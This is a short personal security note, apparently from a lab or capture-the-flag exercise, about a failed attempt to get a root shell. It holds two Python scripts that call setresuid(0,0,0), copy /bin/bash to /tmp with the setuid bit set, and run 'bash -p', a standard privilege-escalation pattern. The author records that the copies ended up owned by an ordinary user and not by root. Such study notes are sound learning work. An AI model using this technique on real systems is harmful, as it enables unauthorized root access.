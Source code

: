 
Does not work! Was trying to do the same as the elf
```python
#!/usr/bin/env python3

import os
os.setresuid(0,0,0)
os.system("touch /tmp/testfile")
os.system("cp /bin/bash /tmp/sofia")
os.system("chmod +xs /tmp/sofia")
```

trying to find more on the error, failed
```python
!/usr/bin/env python3

import os
import subprocess

def main():
    try:
        print("Setting user IDs to root...")
        os.setresuid(0, 0, 0)

        # Execute commands
        print("Running commands...")
        os.system("touch /tmp/testfile2")
        os.system("cp /bin/bash /tmp/sofia")
        os.system("chmod +xs /tmp/sofia")
        os.system("/bin/bash -p")
    except PermissionError as e:
        print(f"Permission denied: {e}")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    main()

```

Both files where created but with karen, the user, as the owner. The chmod worked fine. But without root as the owner it's useless

also check out [[InfoSec/Tools n Info/04 - Shells/python|python]]